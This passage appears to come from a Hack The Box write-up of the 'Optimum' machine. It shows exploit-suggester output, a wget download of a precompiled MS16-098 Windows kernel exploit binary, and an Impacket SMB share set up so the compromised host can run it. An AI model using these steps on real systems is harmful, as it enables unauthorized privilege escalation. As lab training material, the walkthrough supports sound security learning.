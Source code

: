 ```
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

As you can see it found a ton of possible exploits that could escalate our privileges. Since there is a lot of output, I typically like to look at anything relating to `kernels` first since they tend to be fairly reliable. I also tend to try to look for any known proof-of-concepts already such as an already precompiled executable or something of that sort. The `MS16-098` seems to be pretty interesting. There is an [ExploitDB](https://www.exploit-db.com/exploits/41020) link to a proof-of-concept and also has a precompiled binary as well at https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe. On my host, I simply use the `wget` command to download the file and put it into my exploits directory. 

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

I am going to host a `SMB server` using [Impacket's](https://github.com/SecureAuthCorp/impacket) `smbserver.py` tool. This makes it easy to execute a binary on the compromised Windows host by simply having the Windows host connect to our SMB server and run the binary. All we need to do is run this command within the directory that we have the MS16-098 exploit binary, connect to it from the Windows host, and we should have escalated our privileges.

```
smbserver.py share .
```

```
root@kali-[~/htb/optimum/exploits]ls -lah
total 560K
drwxr-xr-x 2 root root 4.0K Jun 14 11:02 .
drwxr-xr-x 6 root root 4.0K Jun 14 10:54 ..
-rw-r--r-- 1 root root 2.5K Jun 14 09:38 39161.py
-rw-r--r-- 1 root root 547K Jun 14 11:02 41020.exe
                                                                                                                                                                                                                                            
root@kali-[~/htb/optimum/exploits]smbserver.py share .
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```